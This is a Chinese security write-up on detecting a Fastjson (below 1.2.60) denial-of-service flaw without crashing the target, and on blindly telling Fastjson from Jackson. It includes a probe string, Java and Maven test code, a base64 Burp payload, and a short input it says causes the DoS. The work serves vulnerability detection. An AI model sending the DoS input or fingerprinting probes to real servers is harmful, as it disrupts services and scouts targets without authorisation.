




# Fastjson <=1.2.60 DoS 漏洞无损检测+Fastjson 与 Jackson 组建区分

> 原文：[http://book.iwonder.run/0day/Fastjson/2.html](http://book.iwonder.run/0day/Fastjson/2.html)

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.60 以下版本

## 三、复现过程

针对 Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC 平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有 fastjson 的字样

例如



### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。 由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{"name":"S", "age":21}

追加一个随机 key ,修改 json 为

{"name":"S", "age":21,"agsbdkjada__ss_d":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key, 所以会报错,服务器的响应包中多少会有异常回显

Fastjson：



Jackson：



### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a , 在 1.2.60 进行了修复, 对 \x 后面的字符进行是否为 16 进制允许字符 (0-9a-fA-F) 的校验, 所以这里就可以手动 padding ,构造一个特殊的字符串

\x\u001a\u001a

测试代码:

Main.java

```
import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String payload = "{\"a\":\"\\x\u001a\u001a\"}";
        System.out.println(payload);
        Object o = JSON.parseObject(payload);
        System.out.println(o.getClass());
    }
} 
```

Fastjson < 1.2.60

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.59</version>
    </dependency>
</dependencies>

</project> 
```


Fastjson == 1.2.60，可以看到报错

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.60</version>
    </dependency>
</dependencies>

</project> 
```



### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64 解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错


使用 {"a:"\x 进行请求就会发生 DOS


以上的检测方式也已经集成到 C/ARS 产品中，支持漏洞检测。

## 四、参考链接

> [https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/](https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/)

